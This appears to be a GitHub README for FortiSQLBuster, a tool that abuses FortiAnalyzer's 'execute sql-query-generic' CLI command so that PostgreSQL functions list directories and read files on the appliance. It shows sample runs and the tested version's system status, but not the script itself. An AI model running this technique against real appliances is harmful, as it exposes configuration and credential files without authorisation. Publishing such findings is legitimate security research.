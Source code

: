 # FortiSQLBuster
A FortiAnalyzer file and directory contents lister tool.

## Description
FortiSQLBuster abuse postgresDB via *execute sql-query-generic* cli command to list and get file/directory contents on the file system.

## Usage
This tool will try automatically to list directory content or to print file content in sequence, before printing an eventual error message.

### List directory content:
```bash
└─$ python3 FortiSQLBuster.py
>: /
<REDACTED_HOSTNAME> #  pg_ls_dir
------------
 proc
 bin
 share
 run
 data
 sbin
 .
 .
 .
 sys
 usr
 etc
 var
 lib64
 lib
 tmp
 root
 dev

```
### Get file content:
```bash
└─$ python3 FortiSQLBuster.py
>: /tmp/afilledfile.txt
<REDACTED_HOSTNAME> #          convert_from
-------------------------------
 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```


## Tested on:
```bash
└─$ python3 FortiSQLBuster.py
<REDACTED> # get system status
Platform Type                   : FAZVM64
Platform Full Name              : FortiAnalyzer-VM64
Version                         : v7.0.4-build0306 220608 (GA)
Serial Number                   : <REDACTED>
BIOS version                    : 04000002
Hostname                        : <REDACTED>
Max Number of Admin Domains     : <REDACTED>
Admin Domain Configuration      : Disabled
FIPS Mode                       : Disabled
HA Mode                         : Stand Alone
Branch Point                    : <REDACTED>
Release Version Information     : GA
Current Time                    : Mon Apr 17 16:19:52 CEST 2023
Daylight Time Saving            : Yes
Time Zone                       : (GMT+1:00) Amsterdam, Berlin, Bern, Rome, Stockholm, Vienna.
x86-64 Applications             : Yes
Disk Usage                      : Free 66.04GB, Total 79.79GB
File System                     : Ext4
License Status                  : Valid
```
